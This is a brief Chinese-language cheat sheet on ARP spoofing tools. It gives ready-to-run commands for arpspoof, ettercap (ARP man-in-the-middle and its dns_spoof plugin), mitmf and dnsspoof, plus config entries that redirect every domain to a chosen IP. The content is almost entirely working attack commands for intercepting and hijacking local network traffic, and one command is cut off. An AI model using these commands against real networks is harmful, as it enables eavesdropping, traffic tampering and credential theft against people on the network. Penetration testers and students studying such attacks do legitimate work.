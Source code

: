 ## arp 欺骗工具

1. arpspoof
    dsniff - Various tools to sniff network traffic for cleartext insecurities

    arpspoof -i eth0 -t 192.168.1.1 -r 192

2. ettercap
    会默认开启转发
    ettercap -Tq -i eth0 -M arp:remote /192.168.1.131 /网关

    还有dns劫持的功能
    /etc/ettercap/etter.dns
    ```
    *.*.*  A  192.168.1.1
    ```
    ettercap -Tq -i eth0 -M arp:remote -P dns_spoof /192.168.1  /网关


3. mitmf

    apt install mitmf




dnsspoof
    dns.txt
        //192.168.111.1  *.baidu.*
        192.168.111.1  *.*.*
    
    dnsspoof -i eth0 -f dns.txt
